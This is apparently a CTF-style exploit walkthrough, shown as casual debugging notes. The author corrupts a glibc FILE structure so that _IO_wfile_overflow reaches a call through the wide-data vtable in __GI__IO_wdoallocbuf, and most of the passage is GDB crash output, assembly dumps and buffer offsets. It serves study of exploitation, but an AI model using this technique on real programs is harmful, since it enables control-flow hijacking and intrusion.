 now i blowed up on this check... looks like we shouldn't change the magic bytes (another check on it).. fixed it and continuing

...another segfault:

```asm
<_IO_wfile_overflow+0xb2>   mov    DWORD PTR [rcx], r12d
```
> Cannot access memory at address 0x6161616661616165

segfaulting because it is triyng to move the pointer of the string that is passed to the puts() into somewhere in my buffer. 

good thing that i sent a cyclic. 32 bytes from the buffer, gotta make it point to somewhere writable like the end-ish of the buffer...

alright, here we go

this time no segfault and that is because we didn't call `__GI__IO_wdoallocbuf` at all...

```asm
  <_IO_wfile_overflow+0xd0>   test   rsi, rsi 
  <_IO_wfile_overflow+0xd3>   jne    0x7eb2d1c8cea2 <__GI__IO_wfile_overflow+0x92> 
```

this check was failed, again, due to my payload in the buffer. `buffer+48` should equal to 0 in order to bypass it. 

and yet another segfault...

smile, because we actually segfaulted at `__GI__IO_wdoallocbuf+52` :D

> __GI__IO_wdoallocbuf+52

```asm
Dump of assembler code for function __GI__IO_wdoallocbuf:                                                                                                                               
   0x0000714d1a68ae60 <+0>:     endbr64                                                                                                                                                 
   0x0000714d1a68ae64 <+4>:     mov    rax,QWORD PTR [rdi+0xa0]                                                                                                                         
=> 0x0000714d1a68ae6b <+11>:    cmp    QWORD PTR [rax+0x30],0x0                                                                                                                         
   0x0000714d1a68ae70 <+16>:    je     0x714d1a68ae78 <__GI__IO_wdoallocbuf+24>                                                                                                         
   0x0000714d1a68ae72 <+18>:    ret                                                                                                                                                     
   0x0000714d1a68ae73 <+19>:    nop    DWORD PTR [rax+rax*1+0x0]                                                                                                                        
   0x0000714d1a68ae78 <+24>:    push   rbp                                                                                                                                              
   0x0000714d1a68ae79 <+25>:    mov    rbp,rsp                                                                                                                                          
   0x0000714d1a68ae7c <+28>:    push   r13                                                                                                                                              
   0x0000714d1a68ae7e <+30>:    push   r12                                                                                                                                              
   0x0000714d1a68ae80 <+32>:    push   rbx                                                                                                                                              
   0x0000714d1a68ae81 <+33>:    mov    rbx,rdi                                                                                                                                          
   0x0000714d1a68ae84 <+36>:    sub    rsp,0x8
   0x0000714d1a68ae88 <+40>:    test   BYTE PTR [rdi],0x2
   0x0000714d1a68ae8b <+43>:    jne    0x714d1a68aef8 <__GI__IO_wdoallocbuf+152>
   0x0000714d1a68ae8d <+45>:    mov    rax,QWORD PTR [rax+0xe0]
   0x0000714d1a68ae94 <+52>:    call   QWORD PTR [rax+0x68]
```
